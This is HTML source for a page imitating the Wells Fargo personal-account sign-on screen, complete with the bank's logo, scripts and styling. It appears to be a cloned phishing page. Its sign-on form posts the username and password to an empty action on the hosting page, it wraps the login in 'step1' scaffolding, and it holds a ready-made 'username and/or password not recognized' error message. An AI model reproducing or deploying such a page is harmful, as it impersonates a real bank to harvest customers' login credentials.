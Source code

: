 <html lang="en"><head><script type="text/javascript" async="" src="https://static.wellsfargo.com/tracking/ga/ga.js" nonce=""></script><script type="text/javascript" async="" src="https://static.wellsfargo.com/tracking/ga/ga_conversion_async.js" nonce=""></script><script type="text/javascript" async="" src="https://static.wellsfargo.com/tracking/ga/gtag.js?t=DC-2549153" nonce=""></script><script type="text/javascript" async="" src="https://static.wellsfargo.com/tracking/ga/gtag.js?t=UA-107148943-1" nonce=""></script><script type="text/javascript" async="" src="https://static.wellsfargo.com/tracking/ga/gtag.js?t=AW-984436569" nonce=""></script><script async="" src="/auth/static/scripts/adrum-ext.b4436be974de477658d4a93afb752165.js"></script><script src="https://connect.secure.wellsfargo.com/jenny/nd"></script><script type="text/javascript" async="" charset="utf-8" id="utag_7" src="https://static.wellsfargo.com/tracking/ga/gtag.js?id=AW-984436569"></script><script type="text/javascript" async="" charset="utf-8" id="_cls_detector" data-clsconfig="reportURI=https://rubicon.wellsfargo.com/glassbox/reporting/0C458F45-AC71-02CE-34D8-401C8A313B38/cls_report;clientAttributesEnabled=true;clientAttributesMaxLength=150;recordConsoleErrors=true;recordScrolls=true;recordMouseMoves=true;recordErrors=true;recordHovers=true;idleEventTimeInterval=-1;reportInterval=60000;interceptAjax=true;ajaxRecordMetadata=never;domMaskingMode=blacklist;domBlacklistMaskContentByClass=pmask;valueMaskingMode=blacklist;maskBlacklistValueByClass=pmask;domKeepScriptMatching=utag_data;captureGlobalObjects=utag_data;domTamperingDetectionEnabled=true;domOmitById=keypad;captureGlobalObjectsOnSegmentChange=true;devToolsDebuggerBasedDetection=false;ajaxRecordRequestHeaders=hostMatches(wellsfargo);ajaxRecordResponseHeaders=hostMatches(wellsfargo);ajaxRecordStats=hostMatches(wellsfargo);" src="https://static.wellsfargo.com/tracking/gb/detector-dom.min.js"></script><script type="text/javascript" async="" charset="utf-8" id="utag_21" src="https://static.wellsfargo.com/tracking/medallia/wdcusprem/57907/onsite/medallia-digital-embed.js"></script><script type="text/javascript" async="" charset="utf-8" id="utag_15" src="https://static.wellsfargo.com/tracking/ytc/ytc.js"></script><script async="" type="text/javascript" src="/auth/login/static/js/general_alt.js?1js" _imp_apg_cid_="sed-wellsfargo-9de6abb8" id="_imp_apg_dip_"></script><script id="995caab4d277fb4a09a47ed86888fea0" src="/auth/login/static/js/general_alt.js?async&amp;seed=AMDjXcqMAQAAyUT-5lyPPPZ7QcHYK6zY3lFk-Wi7JjMriSjTCG6fbSXJJGuZ&amp;X-G2Q3kxs3--z=q" async=""></script>
	<link rel="preconnect" href="https://connect.secure.wellsfargo.com/">
	<link rel="dns-prefetch" href="https://connect.secure.wellsfargo.com/">
	<link rel="preconnect" href="https://static.wellsfargo.com/">
	<link rel="dns-prefetch" href="https://static.wellsfargo.com/">
	<link rel="preconnect" href="https://www10.wellsfargomedia.com/">
	<link rel="dns-prefetch" href="https://www10.wellsfargomedia.com/">
	<link rel="preconnect" href="https://www15.wellsfargomedia.com/">
	<link rel="dns-prefetch" href="https://www15.wellsfargomedia.com/">
	<link rel="prefetch" as="font" href="https://www15.wellsfargomedia.com/wfui/css/fonts/wellsfargosans-rg.woff2" type="font/woff2" crossorigin="anonymous">
	<link rel="prefetch" as="font" href="https://www15.wellsfargomedia.com/wfui/css/fonts/wellsfargosans-sbd.woff2" type="font/woff2" crossorigin="anonymous">
	<link rel="prefetch" as="font" href="https://www15.wellsfargomedia.com/wfui/css/fonts/wellsfargoserif-rg.woff2" type="font/woff2" crossorigin="anonymous">
	<link rel="prefetch" as="font" href="https://www15.wellsfargomedia.com/wfui/css/fonts/wellsfargosans-rg.woff" type="font/woff" crossorigin="anonymous">
	<link rel="prefetch" as="font" href="https://www15.wellsfargomedia.com/wfui/css/fonts/wellsfargosans-sbd.woff" type="font/woff" crossorigin="anonymous">
	<link rel="prefetch" as="font" href="https://www15.wellsfargomedia.com/wfui/css/fonts/wellsfargoserif-rg.woff" type="font/woff" crossorigin="anonymous">

  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
	<meta name="robots" content="noindex">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
	





	
	
		<meta http-equiv="Content-type" content="text/html; charset=UTF-8">
		<meta http-equiv="Pragma" content="no-cache">
		<meta http-equiv="Pragma: no-cache">
		<meta http-equiv="Cache Control" content="no-store">
		<meta http-equiv="Cache Control: no-store">
		<meta http-equiv="Expires" content="-1">
	




	<link rel="preload stylesheet" as="style" type="text/css" href="https://connect.secure.wellsfargo.com/auth/static/ui/loginaltsignon/public/stylesheets/wfui.df76c94872b557f8b8f8.css">
	<link rel="preload stylesheet" as="style" type="text/css" href="https://connect.secure.wellsfargo.com/auth/static/ui/loginaltsignon/public/stylesheets/main.6539fceb73733687f14d.css">
	<link rel="preload" as="image" href="https://www10.wellsfargomedia.com/auth/static/images/COB-BOB-IRT-enroll_balloons.jpg">
	<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/font-awesome/4.5.0/css/font-awesome.min.css" />
 

<title>Sign On to View Your Personal Accounts | Wells Fargo</title><link rel="stylesheet" type="text/css" href="https://connect.secure.wellsfargo.com/auth/static/ui/loginaltsignon/public/stylesheets/src_app_page_login_Login_js.bb7e73ad23c1d7b51bcf.chunk.css"><script type="text/javascript" async="" charset="utf-8" id="utag_wfc.secure-auth_3" src="https://static.wellsfargo.com/tracking/secure-auth/utag.3.js?utv=ut4.49.202112091836"></script><script type="text/javascript" async="" charset="utf-8" id="utag_wfc.secure-auth_4" src="https://static.wellsfargo.com/tracking/secure-auth/utag.4.js?utv=ut4.49.202108231941"></script><script type="text/javascript" async="" charset="utf-8" id="utag_wfc.secure-auth_5" src="https://static.wellsfargo.com/tracking/secure-auth/utag.5.js?utv=ut4.49.202303201648"></script><script type="text/javascript" async="" charset="utf-8" id="utag_wfc.secure-auth_7" src="https://static.wellsfargo.com/tracking/secure-auth/utag.7.js?utv=ut4.49.202010230514"></script><script type="text/javascript" async="" charset="utf-8" id="utag_wfc.secure-auth_10" src="https://static.wellsfargo.com/tracking/secure-auth/utag.10.js?utv=ut4.49.202302082203"></script><script type="text/javascript" async="" charset="utf-8" id="utag_wfc.secure-auth_9" src="https://static.wellsfargo.com/tracking/secure-auth/utag.9.js?utv=ut4.49.202108231941"></script><script type="text/javascript" async="" charset="utf-8" id="utag_wfc.secure-auth_15" src="https://static.wellsfargo.com/tracking/secure-auth/utag.15.js?utv=ut4.49.202109220050"></script><script type="text/javascript" async="" charset="utf-8" id="utag_wfc.secure-auth_21" src="https://static.wellsfargo.com/tracking/secure-auth/utag.21.js?utv=ut4.49.202210132016"></script><style type="text/css" id="kampyleStyle">.noOutline{outline: none !important;}.wcagOutline:focus{outline: 1px dashed #595959 !important;outline-offset: 2px !important;transition: none !important;}</style></head>
<body class="bodyWFFonts useWFFonts" data-block-scrolling="false" data-navigation-menu-open="false">
	<div id="root" class="viewport"><div data-app-container="" style="display: flex; flex-flow: column; flex: 1 1 auto;" class=""><div class="base__appWrapper___SzQ4S"><div tabindex="-1" class="visuallyHidden" data-testid="first-focus">Sign On to View Your Personal Accounts | Wells Fargo</div><div class="Main__pageContainer___IOaj3" style="display: flex; flex-flow: column; flex: 1 1 100%;"><div class="Page__swipeableContainer___OqQIl"> <div data-page-wrapper="" style="display: flex; flex-flow: column; flex: 1 0 auto;" class=""><div aria-hidden="true" tabindex="-1" class="LifestyleImage__lifestyleImage___ctteW" data-testid="lifestyle" style="display: flex; flex-flow: column; flex: 1 1 auto;"><img alt="Lifestyle" src="https://www10.wellsfargomedia.com/auth/static/images/COB-BOB-IRT-enroll_balloons.jpg"><span></span></div><nav class="WFMasthead__masthead___OlOdJ WFMasthead__fixed___FWKON  WFMasthead__mobile___GWaSm" style="display: flex; flex-flow: column;"><div style="display: flex; flex-flow: column; flex: 1 1 auto; align-items: center; justify-content: center;" class=""><div class="WFMasthead__logoBar___laUTY" style="display: flex; flex-flow: column; flex: 1 1 auto; align-items: center;"><div class="Guttered__guttered___vpN24 Guttered__desktop___P1DyL WFMasthead__gutter___ZtrAa WFMasthead__mobile___GWaSm"><div class="WFMasthead__logo___ptNVx" style="display: inline-flex; flex-flow: row;"><button type="button" class="Button__button___Jo8E3 WellsFargoLogo__button___qXHpE" role="link"><span class="visuallyHidden" lang="en">WELLS FARGO</span><svg viewBox="0 0 148 16" aria-hidden="true" role="img" class="WellsFargoLogoIcon__logo___x7wu9 WellsFargoLogoIcon__desktop___R78I2" focusable="false"><path fill="#ffffff" d="
  M31.5783,10.22 L33.0183,10.22 L33.0183,15 L20.9983,15 L20.9983,13.26 L22.6983,13.26 L22.6983,2.74 L19.94,2.74 L16.44,15 L13.66,15 L10.82,4.84
  L7.9,15 L5.12,15 L1.6,2.74 L0,2.74 L0,1 L6.52,1 L6.52,2.74 L4.64,2.74 L6.98,11.18 L9.78,1 L12.66,1 L15.52,11.2 L17.82,2.74 L15.86,2.74 L15.86,1
  L32.8185,1 L32.8185,5.54 L31.3785,5.54 L31.2385,5 C30.7985,3.32 30.3385,2.74 28.9985,2.74 L25.6785,2.74 L25.6785,6.96 L29.6985,6.96 C29.8509872,7.25655731
  29.9266299,7.5866346 29.9185,7.92 C29.9289227,8.26639109 29.8533362,8.60996586 29.6985,8.92 L25.6785,8.92 L25.6785,13.26 L29.1385,13.26 C30.4385,13.26
  31.0185,12.7 31.4185,10.92 L31.5783,10.22 Z M44.2172,10.92 C43.8172,12.7 43.2572,13.26 41.9372,13.26 L39.1572,13.26 L39.1572,2.74 L41.0572,2.74 L41.0572,1
  L34.4772,1 L34.4772,2.74 L36.1772,2.74 L36.1772,13.26 L34.4772,13.26 L34.4772,15 L45.8172,15 L45.8172,10.22 L44.3772,10.22 L44.2172,10.92 Z M56.8161,10.92
  C56.4161,12.7 55.8561,13.26 54.5361,13.26 L51.7561,13.26 L51.7561,2.74 L53.6561,2.74 L53.6561,1 L47.0761,1 L47.0761,2.74 L48.7761,2.74 L48.7761,13.26 L47.0761,13.26
  L47.0761,15 L58.4161,15 L58.4161,10.22 L56.9761,10.22 L56.8161,10.92 Z M67.3548,6.8 L64.8148,6.22 C63.3348,5.88 62.7148,5.3 62.7148,4.32 C62.7148,3.14 63.6548,2.4
  65.4948,2.4 C67.3348,2.4 68.4148,3.06 68.8348,4.62 L69.0148,5.3 L70.4548,5.3 L70.4548,1.84 C68.8830796,1.03158224 67.1423274,0.606665867 65.3749,0.6 C61.9549,0.6
  59.7549,2.24 59.7549,4.88 C59.7549,6.92 61.0349,8.42 63.4949,8.96 L66.0349,9.52 C67.6549,9.88 68.2549,10.52 68.2549,11.58 C68.2549,12.88 67.2749,13.6 65.3149,13.6
  C63.0949,13.6 61.9549,12.72 61.4549,11.04 L61.1949,10.18 L59.7549,10.18 L59.7549,14.1 C61.5849502,15.0113218 63.6113126,15.4578084 65.6549,15.4 C69.0149,15.4 71.2149,13.72
  71.2149,11.1 C71.2148,8.9 69.8747,7.38 67.3548,6.8 Z M86.6329,2.74 C87.9729,2.74 88.4329,3.32 88.8729,5 L89.0129,5.54 L90.4529,5.54 L90.4529,1 L78.3929,1 L78.3929,2.74 L80.0929,
  2.74 L80.0929,13.26 L78.3929,13.26 L78.3929,15 L85.0729,15 L85.0729,13.26 L83.0729,13.26 L83.0729,9.18 L87.1929,9.18 C87.3477086,8.86995608 87.4232935,8.52638836
  87.4129,8.18 C87.4210727,7.84663029 87.3454276,7.51654256 87.1929,7.22 L83.0729,7.22 L83.0729,2.74 L86.6329,2.74 Z M117.1107,13.42 C117.350603,13.9403466
  117.350603,14.5396534 117.1107,15.06 C116.593408,15.1270209 116.072315,15.1604243 115.5507,15.16 C113.6107,15.16 112.6707,14.36 112.4507,12.5 L112.3707,11.8 C112.1307,9.78
  111.4707,9 109.2707,9 L108.1707,9 L108.1707,13.26 L110.0707,13.26 L110.0707,15 L97.4921,15 L97.4921,13.26 L99.1321,13.26 L98.2121,10.76 L93.0121,10.76 L92.0921,13.26 L93.7721,
  13.26 L93.7721,15 L88.4721,15 L88.4721,13.26 L89.8721,13.26 L94.772,1 L97.432,1 L102.432,13.26 L105.1907,13.26 L105.1907,2.74 L103.4907,2.74 L103.4907,1 L111.5307,1 C114.3907,
  1 116.2507,2.42 116.2507,4.7 C116.236826,5.65544044 115.842919,6.56599554 115.156084,7.23031176 C114.469248,7.89462798 113.546072,8.25797324 112.5907,8.24 L112.5907,
  8.3 C113.320265,8.29049748 114.022729,8.57612277 114.538653,9.09204674 C115.054577,9.60797071 115.340203,10.3104352 115.3307,11.04 L115.4107,11.78 C115.5307,12.94 115.7707,
  13.46 116.6907,13.46 C116.831581,13.4586084 116.972089,13.4452267 117.1107,13.42 Z M97.5719,9.06 L95.6119,3.76 L93.6519,9.06 L97.5719,9.06 Z M113.2307,4.98 C113.2307,
  3.52 112.3307,2.74 110.5307,2.74 L108.1707,2.74 L108.1707,7.24 L110.5307,7.24 C112.3108,7.24 113.2307,6.42 113.2307,4.98 Z M125.1745,8.62 C125.161819,8.96019815 125.237622,
  9.29786628 125.3945,9.6 L127.7745,9.6 L127.7745,13.14 C127.025969,13.4478108 126.223838,13.6041585 125.4145,13.6 C122.5345,13.6 121.0345,11.54 121.0345,7.98 C121.0345,
  4.42 122.5345,2.36 125.2545,2.36 C126.847915,2.27805546 128.291943,3.29300049 128.7545,4.82 L128.9745,5.38 L130.4145,5.38 L130.4145,1.8 C128.769872,0.975783763 126.954079,
  0.550956677 125.1145,0.56 C120.7145,0.56 117.7545,3.5 117.7545,8 C117.7545,12.52 120.6345,15.4 125.1145,15.4 C127.070757,15.3481445 128.988059,14.8414289 130.7145,
  13.92 L130.7145,7.68 L125.3945,7.68 C125.23997,7.96860667 125.164097,8.29279214 125.1745,8.62 Z M147.4382,7.98 C147.4382,12.0889985 144.107199,15.42 139.9982,15.42 C135.889201,
  15.42 132.5582,12.0889985 132.5582,7.98 C132.5582,3.87100146 135.889201,0.54 139.9982,0.54 C144.107199,0.54 147.4382,3.87100146 147.4382,7.98 Z M144.1582,7.98 C144.1582,
  4.44 142.6982,2.38 139.9982,2.38 C137.2982,2.38 135.8382,4.44 135.8382,7.98 C135.8382,11.54 137.2782,13.58 139.9982,13.58 C142.7182,13.58 144.1582,11.54 144.1582,7.98 Z
" fill-rule="nonzero"></path></svg></button></div>
<div class="MenuButton__button___L54Yt">
<button type="button" class="Button__button___Jo8E3" data-testid="MastheadMenuButtonElement" aria-expanded="false">
<span style="display: flex; flex-flow: row; align-items: center; justify-content: center;" class="">
<span data-localized="global.navigation.menu" class="visuallyHidden">Navigation Menu</span>
<svg width="28px" height="16px" aria-hidden="true" role="img" class="HamburgerIcon__icon___DEc1M" focusable="false"><path d="M0 0h28v2H0zM0 7h28v2H0zM0 14h28v2H0z"></path></svg>
</span></button>
<svg width="15px" height="7px" viewBox="0 0 16 10" aria-hidden="true" role="img" class="TriangleIcon__icon___mo5Ay MenuButton__triangle___kn4WH" focusable="false"><g transform=""><path d="M15 9.5L7.99999 1.5L1 9.5V10.5H15V9.5Z"></path><path d="M16 9.5H15.1111L7.99997 1.5L0.888859 9.5H0" data-outline=""></path></g></svg>
</div></div>
<div class="KeyLine__keyLine___CunYI">
</div></div></div></nav>
<div class="Page__page___enNDd Page__useWFFonts___L15MO Page__useAltMasthead___Jaye7 Page__mobile___q3Cbr" data-page-container="" style="display: flex; flex-flow: column; flex: 1 0 auto;">
<div style="display: flex; flex-flow: column; flex: 1 1 auto; align-items: center;" class="">
<div class="col-sm-12 col-lg-12 login-page-outer" id="step1" style="display:block">
<div class="PageContent__content___NacAd" style="display: flex; flex-flow: column; flex: 1 1 auto; align-items: center; padding-top: 42px;">
<div data-page-content="" class="Guttered__guttered___vpN24 Guttered__desktop___P1DyL" style="display: flex; flex-flow: column; flex: 1 1 auto; align-items: stretch;">
<div class="FloatingPage__floating-container___eisjJ FloatingPage__desktop___HERT8 antiClickjackContent" data-testid="floatingPage">
		  <div class="ErrorMessage__errorMessageContainer___bq38X ErrorMessage__desktop___fHjsJ" data-testid="errorMessage" id="msg" style="display:none">
		  <div class="WFMessage__wfMessage___KYCOS WFMessage__pageLevel___ysg5V WFMessage__emergency___ZZO3k WFMessage__desktop___lmc17" role="region" aria-label="Alerts and Notifications" style="display: flex; flex-flow: row; flex: 1 1 auto; align-items: stretch;">
		  <span class="visuallyHidden" tabindex="-1"><span data-localized="global.begin.region">Begin region</span></span>
		  <div class="WFMessage__iconContainer___vnnWO" style="display: flex; flex-flow: column; align-items: center; justify-content: flex-start;">
		  <span class="visuallyHidden">Emergency</span><svg width="32px" height="32px" viewBox="0 0 32 32" aria-hidden="true" role="img" focusable="false">
		  <g class="EmergencyIcon__wrapper___pRQrj"><path class="EmergencyIcon__linePath___rJ9vB" d="M17.7301 26.4607L28.2838 7.99182C28.8318 7.03278 28.4986 5.81107 27.5396 5.26305C27.2374 5.09037 26.8953 4.99954 26.5473 4.99954H5.44C4.33543 4.99954 3.44 5.89497 3.44 6.99954C3.44 7.34759 3.53083 7.68962 3.70352 7.99182L14.2572 26.4607C14.8052 27.4197 16.0269 27.7529 16.9859 27.2049C17.296 27.0277 17.553 26.7707 17.7301 26.4607Z"></path><path class="EmergencyIcon__dotPath___EsNaB" d="M16.0577 18.792C16.4297 18.792 16.7387 18.912 16.9847 19.152C17.2307 19.392 17.3537 19.704 17.3537 20.088C17.3537 20.46 17.2307 20.772 16.9847 21.024C16.7387 21.276 16.4297 21.402 16.0577 21.402C15.6737 21.402 15.3587 21.276 15.1127 21.024C14.8667 20.772 14.7437 20.46 14.7437 20.088C14.7437 19.704 14.8667 19.392 15.1127 19.152C15.3587 18.912 15.6737 18.792 16.0577 18.792ZM17.2277 9L16.8317 17H15.2477L14.8517 9H17.2277Z"></path></g></svg>
		  </div>
		  <div class="WFMessage__contentContainer___Zgxix" style="display: flex; flex-flow: column;">
			<div role="presentation" class="ContentEventWrapper__content___i86KF WFMessage__messageContent___X4Nex"><div>
			<div class="ErrorMessage__errorMessageText___G0chy">We do not recognize your username and/or password.  Please try again.</div>
			</div></div></div></div></div>
		  <div class="FloatingPage__salutationTitle___WuPLY" style="display: flex; flex-wrap: nowrap; align-items: center; justify-content: center;">
		  <h1 tabindex="-1" class="FloatingPage__heading___m3xcM"><span data-testid="pageTitle" class="FloatingPage__subTitle___dXWGR">
		  <span data-localized="loginApp.login.signOnMessage">Sign on to manage your accounts</span></span></h1></div>
		  <div class="">
		  <form id="signOnForm" action="" autocomplete="off" method="post" class=""><div>
		  <div class="WFField__field___GI7v2"><input id="origin" type="hidden" name="origin" value="cob"></div>
		  </div><div><div class="WFField__field___GI7v2"><input id="jsenabled" type="hidden" name="jsenabled" value="true"></div></div>
		  <div><div class="WFField__field___GI7v2"><input id="userPrefs" type="hidden" name="userPrefs" value=""></div>
		  </div><div><div class="WFField__field___GI7v2"><input id="langPref" type="hidden" name="langPref" value="ENG"></div>
		  </div><div><div class="WFField__field___GI7v2"><input id="save-username" type="hidden" name="save-username" value="false"></div>
		  </div>
		  <div class="PasswordLoginForm__containerWrap___lvV0L"><div class="PasswordLoginForm__usernameBlock___HQvQ7">
		  <div class="PasswordLoginForm__usernameFieldDiv___wrEoh"><div class="WFFieldSpacing__text___GjkBg">
		  <div class="WFField__field___GI7v2"><div><div><div class="WFInput__inputContainer___hNhd_ WFInput__notReadOnly___EhwjW">
		  <div class="WFInputLabel__label___SUJk1" style="transition: all 0.2s ease 0s; margin-left: 16px; display: flex; flex-flow: row; align-items: flex-start;" data-testid="label-j_username">
		  <label for="j_username" style="display: flex; flex-flow: row; align-items: flex-start;" class=""></label>
		  </div>
		  <input id="username" required placeholder="Username" name="username" type="text" inputmode="" autocomplete="off" tabindex="0" data-testid="input-j_username" data-focus-target="true" style="font-size: 20px; padding-left: 16px; padding-right: 0px;" value="" minlength="0"  required="true">
		  </div>
		  <div class="Border__border___b2SVj Border__notReadOnly___oNacJ"></div></div></div>
		  <div id="AGXQJBTA"></div></div></div></div>
		  <button type="button" aria-label="Clear username" class="Button__button___Jo8E3 PasswordLoginForm__clearIcon___PdhmN" data-testid="username-clearIcon">
		  <svg width="19px" height="19px" viewBox="0 0 19 19" aria-hidden="true" role="img" class="DeleteAllIcon__deleteAllIcon___CUI9j" focusable="false">
		  <path d="M13.44 12.52l-1.06 1.06-3.01-3.01-3 3.01-1.07-1.06 3.01-3.01-3.01-3 1.07-1.06 3 3 3.01-3 1.06 1.06-3.01 3 3.01 3.01z"></path><path d="M9.35 18.53a9.1 9.1 0 1 1 9.1-9.1 9.11 9.11 0 0 1-9.1 9.1zm0-17.14a8 8 0 1 0 8 8 8 8 0 0 0-8-8z"></path></svg>
		  </button></div>
		  <div class="PasswordLoginForm__passwordField___At8Ad">
		  <div class="PasswordLoginForm__passwordField___At8Ad">
		  <div class="WFFieldSpacing__text___GjkBg"><div class="WFField__field___GI7v2"><div><div>
		  <div class="WFInput__inputContainer___hNhd_ WFInput__maskable___lGd73 WFInput__notReadOnly___EhwjW">
		  <div class="WFInputLabel__label___SUJk1" style="transition: all 0.2s ease 0s; margin-left: 16px; display: flex; flex-flow: row; align-items: flex-start;" data-testid="label-j_password">
		  <label for="j_password" style="display: flex; flex-flow: row; align-items: flex-start;" class=""></label>
		  </div>
		  <input data-tracking-ref="WFInput-input-" id="password" placeholder="Password" name="password" type="password" autocomplete="off" tabindex="0" class="pmask" data-testid="input-j_password" data-focus-target="true" style="padding-left: 16px; padding-right: 60px;" value="" minlength="0" maxlength="32" required="true">
		  <div class="WFInput__actionButton___WZjYJ" style="display: flex; flex-flow: row; flex: 1 1 auto; align-items: center; justify-content: center;">
		  <button type="button" aria-label="Unmask Password" class="Button__button___Jo8E3 MaskButton__button___WRyHS" data-testid="unmask-j_password">
		  <span style="display: flex; flex-flow: row; align-items: center; justify-content: center;" class="">
		  <svg width="24px" height="24px" viewBox="0 0 24 24" aria-hidden="true" role="img" focusable="false"><g stroke="none" stroke-width="1" fill="none" fill-rule="evenodd"><g opacity="0.01"><rect fill="#FFBFF9" x="0" y="0" width="24" height="24"></rect><rect fill="#FFFFFF" x="1" y="1" width="22" height="22"></rect><g stroke-width="1" transform="translate(0.000000, 1.000000)" stroke="#FF2AEC"><rect stroke-width="0.25" x="6.625" y="0.125" width="10.75" height="21.75" rx="2"></rect><path d="M8.5,0.125 C7.46446609,0.125 6.625,0.964466094 6.625,2 L6.625,20 C6.625,21.0355339 7.46446609,21.875 8.5,21.875 L15.5,21.875 C16.5355339,21.875 17.375,21.0355339 17.375,20 L17.375,2 C17.375,0.964466094 16.5355339,0.125 15.5,0.125 L8.5,0.125 Z" stroke-width="0.25" transform="translate(12.000000, 11.000000) rotate(-270.000000) translate(-12.000000, -11.000000) "></path><path d="M1,11 L23,11" stroke-width="0.3" stroke-linecap="square" stroke-dasharray="1" transform="translate(12.000000, 11.000000) rotate(-90.000000) translate(-12.000000, -11.000000) "></path><path d="M0.978218914,11 L22.9782189,11" stroke-width="0.3" stroke-linecap="square" stroke-dasharray="1" transform="translate(11.978219, 11.000000) rotate(-180.000000) translate(-11.978219, -11.000000) "></path><path d="M-2.8492424,11 L26.8492424,11" stroke-width="0.3" stroke-linecap="square" stroke-dasharray="1" transform="translate(12.000000, 11.000000) rotate(-135.000000) translate(-12.000000, -11.000000) "></path><path d="M-2.8492424,11 L26.8492424,11" stroke-width="0.3" stroke-linecap="square" stroke-dasharray="1" transform="translate(12.000000, 11.000000) rotate(-45.000000) translate(-12.000000, -11.000000) "></path><circle stroke-width="0.5" cx="12" cy="11" r="8.75"></circle><circle stroke-width="0.5" cx="12" cy="11" r="5.25"></circle><rect stroke-width="0.5" x="3.25" y="2.25" width="17.5" height="17.5" rx="2"></rect></g></g><path d="M12.13525,18.512 C16.71175,18.512 20.7655,16.27775 23.26975,12.842 C20.7655,9.407 16.71175,7.17275 12.13525,7.17275 C7.558,7.17275 3.50425,9.407 1,12.842 C3.50425,16.27775 7.558,18.512 12.13525,18.512 Z M8.51125,7.66475 C7.6285,8.573 7.08475,9.812 7.08475,11.1785 C7.08475,13.96325 9.34225,16.22075 12.12775,16.22075 C14.9125,16.22075 17.17,13.96325 17.17,11.1785 C17.17,9.812 16.62625,8.573 15.7435,7.66475 M3.88675,19.628 L18.34,5 L3.88675,19.628 Z" stroke="#3B3331" stroke-linecap="round" stroke-linejoin="round"></path></g></svg></span>
		  </button></div></div>
		  <div class="Border__border___b2SVj Border__notReadOnly___oNacJ"></div></div></div><div id="QDCDSTST"></div></div></div></div></div>
		  <div data-testid="saveUsername-checkbox" style="display: flex; flex-flow: row; align-items: center;" class=""><div>
		  <div class="WFField__field___GI7v2 PasswordLoginForm__checkboxLabel___P0crz"><div class="">
		  <div data-accessible-id="ENIGKLJI" data-tracking-ref="WFCheckbox-checkbox-" class="WFCheckbox__checkbox___S8kRN" role="checkbox" tabindex="0" data-focus-target="true" data-testid="checkbox-saveUsername" aria-checked="false" aria-labelledby="FOUWGOOL" style="display: inline-flex; flex-flow: row;" aria-disabled="false">
		  <div style="align-items: center;" class=""><svg width="24px" height="24px" viewBox="0 0 24 24" aria-hidden="true" role="img" class="CheckboxIcon__checkbox___TaQ_m" focusable="false"><g><rect data-container="" stroke-width="1" x="0.5" y="0.5" width="23" height="23" rx="1.5"></rect></g><g data-indeterminate="" stroke="none" stroke-width="2" fill="none" fill-rule="evenodd"><path data-mark="" d="M17.5799 11C18.1322 11 18.5799 11.4477 18.5799 12C18.5799 12.5128 18.1939 12.9355 17.6965 12.9933L17.5799 13H6.41992C5.86764 13 5.41992 12.5523 5.41992 12C5.41992 11.4872 5.80596 11.0645 6.3033 11.0067L6.41992 11H17.5799Z"></path></g><g data-checked="" stroke="none" stroke-width="0.1" fill="none" fill-rule="evenodd"><path data-mark="" d="M17.3413 7.33984C17.6657 6.94639 18.2534 6.88571 18.654 7.2043C19.0238 7.49838 19.1049 8.01283 18.86 8.39969L18.792 8.49354L11.2345 17.6602C10.9362 18.022 10.4148 18.1026 10.0211 17.8648L9.92556 17.7987L5.34978 14.198C4.94751 13.8815 4.88268 13.3046 5.20498 12.9095C5.5025 12.5448 6.02587 12.4625 6.42103 12.7009L6.51695 12.7673L10.3676 15.7972L17.3413 7.33984Z" fill="#FFFFFF" fill-rule="nonzero"></path></g></svg></div><div aria-hidden="true" id="FOUWGOOL" class="WFCheckbox__valueLabel___Gjd6A">Save username</div>
		  <input type="hidden" name="saveUserName" value="false"></div></div></div></div><span class=""></span></div></div>
		  <div class="PasswordLoginForm__signOnButton___LNWOU" style="display: flex; flex-wrap: nowrap; align-items: center; justify-content: center;">
		  <button type="submit" id="btn1" class="Button__button___Jo8E3 Button__modern___cqCp7 Button__X56Xb Button__responsive___Xx9EJ Button__primary___tsDHA" data-testid="signon-button">Sign on</button>
		  </div><section class="Panel__panel___dFjGF Panel__desktop___zgpFr" data-testid="panel-container" style="display: flex; flex-flow: row; align-items: center; justify-content: center;">
		  <span class="Panel__panelFooter___y4us0 Panel__desktop___zgpFr"><a href="https://oam.wellsfargo.com/oamo/identity/help/passwordhelp" data-testid="forgotUsernamePassword"><span data-localized="loginApp.login.label.forgotUsernamePassword">Forgot username or password?</span></a></span></section><input name="nds-pmd" type="hidden" value="NDX:%pYI uKbBRam4)JJ'n&quot;7!4z&gt;1@E;|)^wM%}DXv@8tAXz&gt;9wKX`iEUL5'pG&quot;W9k{*$\8'XEi&quot;%g0yeOFfQEl4uSsW[eU!GM`08dg&lt;cD+4ZGDloCOL'j':t4(vZ&gt;g}!%L!x9&gt;{R,m7##wBy@^%kZLQ9-cK]%@)q?Ea$dfCk.]KYI5[SL?&gt;mtyY}!P*x#`wZzBJe#Snu4m$4|15Fm`Po!z-$'? FJWfu[e4(Ml^tM'lJ $R*`zzLkX1 1u*-C{#D;Mr3y&lt;k|b[I;(q)/zK`W@pV[rw\q@&lt;kk&lt;cqOn.J.SAvgLJmLj:19}De@AglLfS$ vJ -?cyFb;QscY8:4vbXn&quot;.q`Tj{??`ARBJI24&gt;?7n%ym9wc\,G}YJbI0RVO:x1yM5[BO{rb7q4{\!L|4sNSrU+5eUQjH eMI&lt;/ml[]b3&gt;wYAc'm9@)P7gY}kW#kYTTfFcT@j%,a&gt;RhHBcLx@@Bc/5g{rKT(I8A y&amp;Y;9&gt;w73;6:zF`}*&gt;$z!zAWpG7uI)nWqHT#Et:sT:jW&amp;v&quot;Qh\ kz}pL3r&gt;/^F+SJIg^yn@?jV.WP4j85i|&gt;e[0bz:5YthQz. m&gt;vX_y&gt;+zFc)u/ri$q58z[\o&amp;^'EBuhP#]&gt;xbS-Z]p&lt;4mI-oJJT`&amp;e-!k]&amp;o])iB{eR:T$MnaI8}Le v'KWc8M1y#'0]F}o'Q(Mi(bKn-/&quot;*rD0^8?v=0{f+xR 